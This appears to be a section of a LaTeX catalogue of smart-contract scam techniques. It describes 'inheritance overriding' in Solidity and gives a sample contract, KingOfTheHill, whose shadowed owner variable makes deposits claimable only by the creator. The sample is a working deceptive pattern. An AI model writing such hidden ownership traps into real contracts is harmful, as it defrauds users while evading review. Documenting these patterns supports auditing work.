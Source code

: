 \section{Inheritance Overriding}

\subsection{Evades}

Source code reviews with subtle exploitation of the compilation process.

\subsection{How}

The malicious contract inherits from standard code like \emph{Ownable}, \emph{Upgradeable}, etc.

It overwrites key elements by:

\begin{itemize}
\item{adding a variable definition for an existing keyword}
\item{polymorphism, which allows to have several versions of a function}
\end{itemize}

Then a single keyword can refer to different implementations depending on its context.

The resulting contract doesn't behave like its parent, while looking legitimate.

\subsection{Samples}

\subsubsection{Attribute Overwriting}

\emph{KingOfTheHill} inherits from \emph{Ownable} but the original \emph{owner} cannot be changed:

\begin{lstlisting}[language=Solidity]
contract KingOfTheHill is Ownable {
    address public owner; // different from the owner in Ownable

    function () public payable {
        if(msg.value > jackpot) owner = msg.sender; // local owner
        jackpot += msg.value;
    }
    function takeAll () public onlyOwner { // owner from Ownable = contract creator
        msg.sender.transfer(this.balance);
        jackpot = 0;
    }
}
\end{lstlisting}

